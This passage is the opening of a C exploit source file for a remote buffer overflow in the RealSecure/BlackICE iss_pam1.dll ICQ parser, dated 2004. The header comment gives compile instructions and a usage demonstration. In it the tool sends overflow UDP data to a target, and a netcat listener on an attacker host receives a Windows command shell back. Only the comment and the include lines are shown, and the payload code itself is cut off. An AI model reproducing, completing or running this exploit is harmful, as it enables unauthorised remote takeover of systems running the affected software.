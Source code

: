 EXP
---

    /* 557iss_pam_exp - RealSecure / Blackice ICQ iss_pam1.dll remote overflow exploit
    *
    * Copyright (c) SST 2004 All rights reserved.
    *
    * Public version
    *
    * code by Sam (Sam`@efnet) and 2004/03/26
    * <chen_xiaobo@venustech.com.cn>
    * <Sam@0x557.org>
    *
    *
    *
    * Compile: gcc -o 557iss_pam_exp 557iss_pam_exp.c
    *
    * how works?
    * [root@core exp]# ./557iss_pam_exp 192.168.10.2 192.168.10.169 5570
    * 557iss_pam_exp - RealSecure / Blackice iss_pam1.dll remote overflow exploit
    * - Sam
    *
    * # attack remote host: 192.168.10.2.
    * # listen host: 192.168.10.169.
    * # listen port: 5570.
    * # send overflow udp datas
    * # 1199 bytes send
    * # done.
    * # make sure we are in, dude :)
    *
    *
    * [root@core root]# nc -vv -l -p 5570
    * listening on [any] 5570 ...
    * 192.168.10.2: inverse host lookup failed: Host name lookup failure
    * connect to [192.168.10.169] from (UNKNOWN) [192.168.10.2] 3604
    * Microsoft Windows XP [Version 5.1.2600]
    * (C) Copyright 1985-2001 Microsoft Corp.
    *
    * C:\Program Files\ISS\BlackICE>
    * C:\Program Files\ISS\BlackICE>
    * C:\Program Files\ISS\BlackICE>
    *
    *
    * some thanks/greets to:
    * eeye (they find this bug :D), airsupply, kkqq, icbm, my gf :I
    * and everyone else who's KNOW SST ;P
    * http://0x557.org
    */

    #include <stdio.h>
    #include <unistd.h>
    #include <stdarg.h>
    #include <sys/types.h>
    #include <sys/socket.h>
    #include <netinet/in.h>
    #include <netinet/tcp.h>
    #include <arpa/inet.h>
    #include <netdb.h>
    #include <stdlib.h>
    #include <errno.h>
    #include <string.h>
    #include <assert.h>
    #include <fcntl.h>
    #include <sys/time.h>
